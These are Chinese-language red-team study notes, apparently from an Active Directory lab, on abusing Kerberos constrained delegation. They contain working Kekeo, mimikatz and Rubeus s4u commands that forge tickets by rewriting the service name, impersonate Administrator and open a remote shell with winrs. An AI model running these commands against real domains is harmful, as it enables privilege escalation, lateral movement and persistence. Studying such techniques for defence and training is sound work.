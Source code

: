 使用ActiveDirectory module
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

## 利用

这里是利用sname字段不受保护，本来是委托了A服务的票据，可以改成为委托B服务

### 方法1（不推荐）
使用Kekeo请求一个tgs
```
tgs::s4u /tgt:TGT_appsvc@US.TECHCORP.LOCAL_krbtgt~us.techcorp.local@US.TECHCORP.LOCAL.kirbi /user:Administrator /service:CIFS/us-mssql.us.techcorp.local|HTTP/us-mssql.us.techcorp.local
```
（这里我觉得应该是使用工具手动修改sname..）

使用mimikatz ptt
```
Invoke-Mimikatz '"kerberos::ptt TGS_Administrator@US.TECHCORP.LOCAL_HTTP~us-mssql.us.techcorp.local@US.TECHCORP.LOCAL_ALT.kirbi"'
```
执行命令
```
Invoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local
```

### 方法2（推荐）
使用Rubeus
```
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```
这里：
/impersonateuser ：模拟的用户
/msdsspn ： 原本委托的服务
/altservice ： 模拟的服务

然后
```
winrs -r:us-mssql cmd.exe
```


**注意**

- Note that the msDS-AllowedToDelegateTo is the user account flag which controls the services to which a user account has access to.（请注意，msDS-AllowedToDelegateTo 是用户帐户标志，用于控制用户帐户有权访问的服务。）

- This means, with enough privileges, it is possible to access any service from a user – a neat persistence trick.（这意味着，只要有足够的权限，就可以访问用户的任何服务——一个巧妙的持久化技巧。）

- Enough privileges? – SeEnableDelegationPrivilege on the DC and full rights on the target user - default for Domain Admins and Enterprise Admins.（足够的特权？ – DC 上的 SeEnableDelegationPrivilege 和目标用户的完整权限 - 域管理员和企业管理员的默认设置。）
